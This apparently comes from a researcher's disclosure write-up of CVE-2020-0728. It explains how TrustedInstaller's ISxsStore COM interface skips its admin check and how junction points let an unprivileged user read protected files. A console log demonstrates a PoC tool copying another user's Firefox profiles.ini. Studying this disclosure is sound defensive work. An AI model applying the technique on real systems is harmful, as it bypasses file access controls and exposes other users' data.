 CVE-2020-0728
=============

Details
-------

The `TrustedInstaller.exe` service is running as `NT_AUTHORITY\SYSTEM` and is hosting the Sxs Store Class (`3C6859CE-230B-48A4-BE6C-932C0C202048`) COM service along with the interface `ISxsStore`. 
The access permissions (O:BAG:BAD:(A;;CCDCLC;;;PS)(A;;CCDC;;;SY)(A;;CCDC;;;BA)(A;;CCDC;;;IU)(A;;CCDC;;;SU)) of this service grants access to any users 
on the local system.
The `ISxsStore` interface exposes 4 methods:

```
[Guid("8601319a-d7cf-40f3-9025-7f77125453c6")]
interface ISxsStore : IUnknown {
    HRESULT BeginAssemblyInstall(/* Stack Offset: 8 */ [In] int p0);
    HRESULT InstallAssembly(/* Stack Offset: 8 */ [In] int p0, /* Stack Offset: 16 */ [In] wchar_t* p1, /* Stack Offset: 24 */ [In] struct Struct_0* p2, /* Stack Offset: 32 */ [In] struct Struct_1* p3);
    HRESULT EndAssemblyInstall(/* Stack Offset: 8 */ [In] int p0, /* Stack Offset: 16 */ [Out] int* p1);
    HRESULT UninstallAssembly(/* Stack Offset: 8 */ [In] int p0, /* Stack Offset: 16 */ [In] wchar_t* p1, /* Stack Offset: 24 */ [In] struct Struct_1* p2, /* Stack Offset: 32 */ [In] int* p3);
}
```

Upon invocation, the implementation calls out to the `ICbsWorker` interface hosted by `TiWorker.exe` (again, running as `NT_AUTHORITY\SYSTEM`) to obtain an `ICbsSession8` session
and then practically calls the same methods on this interface.
The real logic is implemented in the `sxsstore.dll` library; authorization can be found in `CSxsStore::BeginAssemblyInstall`:

```
uVar1 = SxspEnsureComClientIsAdmin((void **)this);
```

This is done using `CoImpersonateClient`+`CheckTokenMembership` calls.

The problem is, if the session hosted by the `TiWorker.exe` process is invoked via the `TrustedInstaller.exe` wrapper, the authorization logic implemented always encounters connections from `NT_AUTHORITY\SYSTEM`
and thus grants access to anyone.

The assemblies requested to be installed are placed under `C:\Windows\WinSXS` by the implementation residing in `wcp.dll` (`Windows::COM::CComponentStore::InternalTransact`) and
seems to feature sufficient security measures to protect these method calls to escape from this legitimate destination directory, but the source files referenced by the 
manifest can be abused via junction points.

This can be exploited to bypass file system DAC and read any files on the local filesystem as demonstrated below:


```
	Microsoft Windows [Version 10.0.18362.592]
	(c) 2019 Microsoft Corporation. All rights reserved.

	C:\Projects\windows-dcom-hacks\work\Windows Modules Installer\weapon>whoami
	desktop-43rnlku\unprivileged

	C:\Projects\windows-dcom-hacks\work\Windows Modules Installer\weapon>whoami /priv

	PRIVILEGES INFORMATION
	----------------------

	Privilege Name                Description                          State
	============================= ==================================== ========
	SeShutdownPrivilege           Shut down the system                 Disabled
	SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
	SeUndockPrivilege             Remove computer from docking station Disabled
	SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
	SeTimeZonePrivilege           Change the time zone                 Disabled


	C:\Projects\windows-dcom-hacks\work\Windows Modules Installer\weapon>type "C:\Users\John Doe\AppData\Roaming\Mozilla\Firefox\profiles.ini"
	Access is denied.


	C:\Projects\windows-dcom-hacks\work\Windows Modules Installer\weapon>sxscopy.exe "C:\Users\John Doe\AppData\Roaming\Mozilla\Firefox\profiles.ini" profiles.ini
	sxscopy: C:\Users\John Doe\AppData\Roaming\Mozilla\Firefox\profiles.ini => profiles.ini
	Creating helper junction sxscopy.junction -> C:\
	Junction created for sxscopy.junction <<===>> C:\
	Executing DCOM magic with manifest file C:\Projects\windows-dcom-hacks\work\Windows Modules Installer\weapon\sxscopy.manifest
	Exploitation has succeeded, copy of the source file was placed inside WinSXS
	Copy has succeeded!

	C:\Projects\windows-dcom-hacks\work\Windows Modules Installer\weapon>type profiles.ini
	[Install308046B0AF4A39CB]
	Default=Profiles/5bqqo33l.default
	Locked=1

	[Profile2]
	Name=johndoe
	IsRelative=1
	Path=Profiles/5bqqo33l.default
	Default=1

	[Profile1]
	Name=default
	IsRelative=1
	Path=Profiles/x89vbmzf.default

	[Profile0]
	Name=default-release
	IsRelative=1
	Path=Profiles/1kmhc44f.default-release

	[General]
	StartWithLastProfile=1
	Version=2
```

The wcp framework is actually quite complex and and features various 'installers' (e.g. GenericCommand execution among the 'advanced' ones), 
but the interface accessible above seems to be limited to only the 'primitive installers'. I could trigger executing 
`CRegistryInstaller::CommitChanges` that emitted log to `C:\Windows\Logs\CBS\CBS.log`, lines like:

```
2020-01-18 15:58:16, Info                  CSI    0000000c Registry installer wrote xxx values
```

But it actually never really called any API methods to change anything in the registry. 


Credits
-------
The report above along with the PoC code was submitted by Imre Rad but was also identified by researchers of NCC (actually a few months earlier).

Links
-----
https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2020-0728
